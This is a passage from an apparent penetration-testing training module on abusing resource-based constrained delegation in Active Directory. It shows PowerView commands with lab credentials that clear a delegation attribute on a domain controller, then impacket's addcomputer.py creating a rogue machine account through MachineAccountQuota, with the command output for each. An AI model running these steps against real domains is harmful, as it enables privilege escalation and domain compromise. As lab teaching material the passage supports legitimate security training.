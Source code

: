 To clear the attribute `msDS-AllowedToActOnBehalfOfOtherIdentity`, we can use the following PowerShell commands:

#### Clear Attribute
```powershell-session
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
PS C:\Tools> Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Extracted domain 'INLANEFREIGHT.LOCAL' from 'CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL'
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC01,OU=Domain
Controllers,DC=INLANEFREIGHT,DC=LOCAL)))
VERBOSE: [Set-DomainObject] Clearing 'msDS-AllowedToActOnBehalfOfOtherIdentity' for object 'DC01$'
```

Check out [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html) from [Shenanigans Labs](https://shenaniganslabs.io/) for more insights on abusing RBCD (please note that the blog post uses the old link for `harmj0y`'s blog "http://www.harmj0y.net/blog", instead, use [blog.harmj0y.net](https://blog.harmj0y.net/blog/)).

---
# Attacking from Linux

First, we need to create a computer account, which is possible because `ms-DS-MachineAccountQuota` is set to 10 by default for authenticated users. The [addcomputer.py](https://github.com/fortra/impacket/blob/master/examples/addcomputer.py) script from impacket can be used for this.

## When MachineAccountQuota More Than 0
#### Creating a New Computer
```shell-session
slomkm@htb[/htb]$ addcomputer.py -computer-name 'HACKTHEBOX$' -computer-pass Hackthebox123+\! -dc-ip 10.129.205.35 inlanefreight.local/carole.holmes

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
[*] Successfully added machine account HACKTHEBOX$ with password Hackthebox123+!.
```
